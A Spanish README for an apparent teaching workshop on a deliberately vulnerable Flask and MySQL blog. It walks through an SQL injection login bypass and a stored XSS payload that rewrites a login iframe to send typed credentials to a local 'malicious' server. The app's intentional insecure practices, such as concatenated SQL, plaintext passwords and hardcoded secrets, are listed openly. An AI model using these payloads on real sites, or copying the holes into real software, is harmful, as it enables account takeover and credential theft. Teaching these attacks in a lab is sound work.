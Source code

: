# TallerCiberseguridad

Este taller pretende mostrar con ejemplos algunas técnicas usadas para explotar debilidades de seguridad, concretamente en qué consiste el **SQLInjection** y el **Cross Site Scripting**.

# Advertencia:

Con la finalidad de mostrar estos datos, hemos recurrido a varias irregularidades en el código, como pueden ser:

* No escapar el texto que nos llega en una petición (a través del cual luego haremos **XSS**).
* Componer la query **SQL** concatenando textos, en lugar de hacer uso de los **prepared statements**.
* No estamos cifrando las claves de los usuarios en las bases de datos.
* La conexión a la base de datos hace uso de usuario y contraseña, hardcodeados en el código.
* Hemos subido a un repositorio público el **secret** de nuestra aplicación.

# Dependencias

Vienen indicadas en el fichero **requirements**, son los módulos **flask** y **pymysql**. Puedes instalarlos con **pip**

```bash 
pip install flask
pip install pymysql
``` 

# Preparación

Se necesita una base de datos MySQL en local, con usuario **root** con contraseña **root** (podemos usar otra base de datos y/o usuario, contraseña, siempre que lo modifiquemos en el código), sobre la que ejecutaremos el siguiente código:

```sql
create database seguridad;
use seguridad;
create table usuarios (email varchar(64), clave varchar(32), created timestamp default CURRENT_TIMESTAMP, primary key (email));
insert into usuarios (email, clave) values ('misterio@raro.sa','123abc');
insert into usuarios (email, clave) values ('vegeta@gmail.com','777');
``` 

# Desarrollo

## 1- Levantar el servidor 

Ejecutamos el proceso **ServerBlog.py**. Para ello la base de datos debe estar corriendo.

## 2- Mostrar la página

Se muestra el uso general de la página, que obliga a hacer login para poder publicar comentario.

Existen dos usuarios, usaremos el usuario **vegeta@gmail.com** con contraseña **777** para mostrar que se puede publicar un comentario.

## 3- Ahora nos saltamos la seguridad

Posteriormente nos conectaremos como otro usuario cuya contraseña (supuestamente) no conocemos, el usuario **misterio@raro.sa** y como contraseña realizaremos el **SQLInjection**. Para ello escribiremos lo siguiente como contraseña:

**OJO**: es importante dejar un espacio detrás del **--**, por eso añadimos un apóstrofe, para evitar que no copiéis el espacio.
```sql
' or 1=1  -- '
``` 

## 4- Y ahora nos toca robar datos

Ejecutamos el segundo servidor, **fakeServer.py**. Esto simula ser un servidor maligno creado para robar datos.

Nos autenticamos usando lo visto en el punto anterior, y añadimos un comentario haciendo uso de una vulnerabilidad de *XSS*.

```html
<script type="text/javascript">
var temp = document.getElementById("loginFrame");
delete temp.src;
temp.srcdoc='<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Cutre Login</title></head><body><form action="http://127.0.0.1:5005/validateLogin" id="formLogin" method="POST">  <label for="user">user:</label>  <input type="text" id="user" name="user"><br><br>  <label for="pass">pass:</label>  <input type="password" id="pass" name="pass"><br><br>  <input type="submit" value="Submit"></form></body></html>';
</script>
``` 

Al hacerlo, sin que se vea en el código fuente, hemos cambaido el formulario de login, para hacer que apunte a nuestro servidor maligno. 

Intentamos logarnos con unos datos cualquiera, y mostramos cómo el servidor maligno ha capturado los datos.



